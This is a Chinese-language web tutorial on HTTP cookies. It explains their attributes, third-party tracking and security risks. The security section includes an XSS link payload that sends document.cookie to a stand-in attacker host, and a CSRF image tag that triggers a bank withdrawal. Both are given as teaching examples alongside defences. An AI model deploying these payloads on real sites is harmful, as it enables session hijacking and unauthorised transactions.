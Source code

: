 ### 前言

网络早期最大的问题之一是如何管理状态。简而言之，服务器无法知道两个请求是否来自同一个浏览器。当时最简单的方法是在请求时，在页面中插入一些参数，并在下一个请求中传回参数。这需要使用包含参数的隐藏的表单，或者作为URL参数的一部分传递。这两个解决方案都手动操作，容易出错。

网景公司当时一名员工Lou Montulli，在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，目前所有浏览器都支持cookies。

### cookie是什么
cookie翻译过来是“饼干，甜品”的意思，cookie在网络应用中到处存在，当我们浏览之前访问过的网站，网页中可能会显示：你好，王三少，这就会让我们感觉很亲切，像吃了一块很甜的饼干一样。

由于http是无状态的协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，这就说明服务器单从网络连接上是没有办法知道用户身份的。怎么办呢？那就给每次新的用户请求时，给它颁发一个身份证（独一无二）吧，下次访问，必须带上身份证，这样服务器就会知道是谁来访问了，针对不同用户，做出不同的响应。，这就是Cookie的原理。

其实cookie是一个很小的文本文件，是浏览器储存在用户的机器上的。Cookie是纯文本，没有可执行代码。储存一些服务器需要的信息，每次请求站点，会发送相应的cookie，这些cookie可以用来辨别用户身份信息等作用。

<img src="images/cookie01.png">

如图所示,用户首次访问服务器，服务器会返回一个独一无二的识别码；id=23451，这样服务器可以用这个码跟踪记录用户的信息，（购物历史，地址信息等）。

cookie可以包含任意的信息，不仅仅是id，客户端会记录服务器返回来的Set-Cookie首部中的cookie内容。并将cookie存储在浏览器的cookie数据库中，当用户访问同一站点时，浏览器就会挑选当时该站点颁发的id=XXX的身份证（cookie），并在Cookie请求首部发送过去。

### cookie的类型
可以按照过期时间分为两类：会话cookie和持久cookie。会话cookie是一种临时cookie，用户退出浏览器，会话Cookie就会被删除了，持久cookie则会储存在硬盘里，保留时间更长，关闭浏览器，重启电脑，它依然存在，通常是持久性的cookie会维护某一个用户周期性访问服务器的配置文件或者登录信息。


> 持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）

```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```

### cookie的属性
#### cookie的域
产生Cookie的服务器可以向set-Cookie响应首部添加一个Domain属性来控制哪些站点可以看到那个cookie，例如下面：
```
  Set-Cookie: name="wang"; domain="m.zhuanzhuan.58.com"
```
如果用户访问的是m.zhuanzhuan.58.com那就会发送cookie: name="wang", 如果用户访问www.aaa.com（非zhuanzhuan.58.com）就不会发送这个Cookie。

#### cookie的路径 Path
Path属性可以为服务器特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。

例如：m.zhuanzhuan.58.com 和 m.zhaunzhuan.58.com/user/这两个url。
m.zhuanzhuan.58.com 设置cookie
```
  Set-cookie: id="123432";domain="m.zhuanzhuan.58.com";
```
m.zhaunzhuan.58.com/user/ 设置cookie：
```
  Set-cookie：user="wang", domain="m.zhuanzhuan.58.com"; path=/user/
```
但是访问其他路径m.zhuanzhuan.58.com/other/就会获得
```
  cookie: id="123432"
```
如果访问m.zhuanzhuan.58.com/user/就会获得
```
  cookie: id="123432"
  cookie: user="wang"
```
#### secure
设置了属性secure，cookie只有在https协议加密情况下才会发送给服务端。但是这并不是最安全的，由于其固有的不安全性，敏感信息也是不应该通过cookie传输的.

```
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure;
```

> chrome 52和firefox 52 开始不安全的（HTTP）是无法使用secure的：

### 操作Cookie

通过docuemnt.cookie可以设置和获取Cookie的值
```
document.cookie = "user=wang";
console.log(document.cookie);
```
> 禁止javascript操作cookie（为避免跨域脚本(xss)攻击，通过javascript的document.cookie无法访问带有HttpOnly标记的cookie。）

```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2017 07:28:00 GMT; Secure; HttpOnly
```

### 第三方cookie

通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么第三方cookie就是cookie的域和地址栏中的域不匹配，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。
<img src="images/cookie02.png">

如上图（a）：用户访问服务器1的一个页面index.html，这个页面和第三方广告网站合作，这个页面还有一张www.advertisement.com域名下的一张广告图ad1.jpg，当请求这张ad1.jpg图片的时候，www.advertisement.com这个服务器会给用户设置cookie
```
  Set-Cookie: user="wang";like="a"; domain="advertisement.com"
```
记录用户的浏览记录，分配一个user来表示用户的身份。

图（b）：用户访问服务器2的一个index.html页面，这个页面也和同一家广告商合作，这个页面也包含一张www.advertisement.com域名下的一张广告图ad2.jpg，当请求这张ad2.jpg图片的时候，浏览器就会向www.advertisement.com发送cookie
```
  Cookie:  user="wang"; like="a";
```
www.advertisement.com收到浏览器发送的cookie识别了用户的身份，同时又把这个页面用户的浏览数据设置cookie
```
  Set-Cookie: buy="b"; domain="advertisement.com"
```
图（c）：很巧，用户访问服务器3的一个index.html页面，这个页面也和那一家广告商合作，这个页面也包含一张www.advertisement.com域名下的一张广告图ad3.jpg，当请求这张ad3.jpg图片的时候，浏览器就会向www.advertisement.com发送cookie
```
  Cookie:  user="wang"; like="a"; buy="b"
```
这样广告公司就可以根据用户的浏览习惯，给用户推送合适的广告。

### 安全
多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。
下面介绍几种cookie盗用和会话劫持的例子：

#### 网络窃听
网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

#### DNS缓存中毒

如果攻击者可以使[DNS缓存中毒](http://https://en.wikipedia.org/wiki/DNS_spoofing/)，那么攻击者就可以访问用户的Cookie了，例如：攻击者使用DNS中毒来创建一个虚拟的NDS服务h123456.www.demo.com指向攻击者服务器的ip地址。然后攻击者可以从服务器           h123456.www.demo.com/img_01.png 发布图片。用户访问这个图片，由于 www.demo.com和h123456.www.demo.com是同一个子域，所以浏览器会把用户的与www.demo.com相关的cookie都会发送到h123456.www.demo.com这个服务器上，这样攻击者就会拿到用户的cookie搞事情。

一般情况下是不会发生这种情况，通常是网络供应商错误。

#### 跨站点脚本XSS
使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```
当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

#### 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
```
<img  src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" >
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。
